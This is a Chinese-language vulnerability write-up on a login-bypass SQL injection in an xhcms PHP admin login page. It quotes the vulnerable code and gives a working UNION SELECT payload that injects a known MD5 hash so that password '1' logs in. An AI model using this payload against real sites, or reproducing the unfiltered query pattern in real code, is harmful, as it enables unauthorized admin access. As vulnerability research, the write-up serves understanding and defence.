


#### 漏洞详情： ####
漏洞位置：admin/files/login.php

    <?php 
    ob_start();
    require '../inc/conn.php';
    $login=$_POST['login'];
    $user=$_POST['user'];
    $password=$_POST['password'];
    $checkbox=$_POST['checkbox'];
    
    if ($login<>""){
    $query = "SELECT * FROM manage WHERE user='$user'";
    $result = mysql_query($query) or die('SQL语句有误：'.mysql_error());
    $users = mysql_fetch_array($result);
    
    if (!mysql_num_rows($result)) {  
    echo "";
    exit;
    }else{
    $passwords=$users['password'];
    if(md5($password)<>$passwords){
    echo "";
    exit;   
    }
    //写入登录信息并记住30天
    if ($checkbox==1){
    setcookie('user',$user,time()+3600*24*30,'/');
    }else{
    setcookie('user',$user,0,'/');
    }
    echo "";
    exit;
    }
    exit;
    ob_end_flush();
    }
    ?>
万能密码登录有两个点：

1.user未经过过滤直接拼接进入数据库查询

2.password的md5对比可绕过

payload:

    user:1' union select 1,2,'test','c4ca4238a0b923820dcc509a6f75849b',5,6,7,8#
    password:1
    
    此处md5(1)=c4ca4238a0b923820dcc509a6f75849b

我们进入后台，在账号一栏中填入payload，密码输入mad5加密的1即可成功登录。

漏洞分析

我们登录我们的mysql数据库，查询xhcms库下的manage表

我们使用联合查询的方法，发现结果在数据库下添加一行新的参数，而添加的值我们是可控的。

所以我们的payload就是通过传入新的md5加密后的password，从而达到绕过验证，直接登录的目的。

### 参考链接 ###
https://xz.aliyun.com/t/7629